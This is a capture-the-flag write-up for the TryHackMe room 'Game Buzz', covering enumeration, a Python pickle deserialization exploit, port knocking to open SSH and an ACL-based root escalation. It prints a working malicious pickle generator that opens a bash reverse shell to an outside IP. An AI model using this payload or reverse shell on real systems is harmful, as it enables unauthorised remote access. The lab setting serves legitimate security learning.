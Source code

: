 # Game Buzz

![image](https://user-images.githubusercontent.com/5285547/128932672-b10c018a-8d55-4bfd-8edb-1d4100c0a480.png)

Romm link: https://tryhackme.com/room/gamebuzz

## Enum

Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Incognito
```

---
## Port 80 

Checking the main website didn't show much, apart from a button that loads a file with a .pkl extension. 

![image](https://user-images.githubusercontent.com/5285547/128937818-90d5dd7c-561d-4463-8a1c-a79311deb7b5.png)

Also we find a domain name. 

```
sudo nano /etc/hosts  
ip incognito.com
```

## dev.incognito.com

```
sudo nano etc/hosts
IP dev.incogniot.com
```

http://dev.incognito.com/secret/upload/

Finding the endpoint we can try to upload a file of our own. Based on the .pkl file extension this hints at python pickle deserilization. 

## User

If we can get our file to be read from the main website we can get RCE. 

test.pkl (rev shell)

```
#!/usr/bin/env python3
import pickle, os
class pickleSerilization(object):
    def __reduce__(self):
        return (os.system,("bash -c 'bash -i >& /dev/tcp/10.8.153.120/9999 0>&1'",))
pickle.dump(pickleSerilization(), open("rev_shell", "wb"))
```
Running the code gives us the rev_shell file. Upload this at "http://dev.incognito.com/secret/upload/" then call it with the main website.

![image](https://user-images.githubusercontent.com/5285547/128940779-a030648b-e70f-49e1-b35f-53d343d13e96.png)

Now we can access the /home/dev2/ folder to find the user flag. 

---
## User 2

We find a file called "/etc/knockd.conf" that looks intresting. I see some ports we need to knock to open SSH

```
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCE$
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJE$
        tcpflags    = syn


5020,6120,7340
```

Doing some more enumeration showed some mails for dev1 in /var/mail, with a message to let ourselfs in! 

![image](https://user-images.githubusercontent.com/5285547/128942053-8354618c-dc30-45b7-b653-2ca97ad1e5a0.png)

Using knock I opend the SSH port then used the id_rsa key to login as dev1. 

```
knock  10.10.28.93 5020 6120 7340

#Now login, copy the rsa to a new file
chmod 600 id_rsa
ssh dv1@IP -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/128942276-39b99b82-3826-4ec6-a5a8-341f920dda9b.png)

---
## Root

Enumerating the system again we can see the same file popping up in linpeas with acl permissions set. 

![image](https://user-images.githubusercontent.com/5285547/128942448-bd64f8da-f086-4d76-9c72-6e728f375d2e.png)

Knowing this lets edit the file to test some command execution (as root). 

```
nano /etc/knockd.conf

# acl 

setfacl -m u:dev1:rw /etc/knockd.conf
```







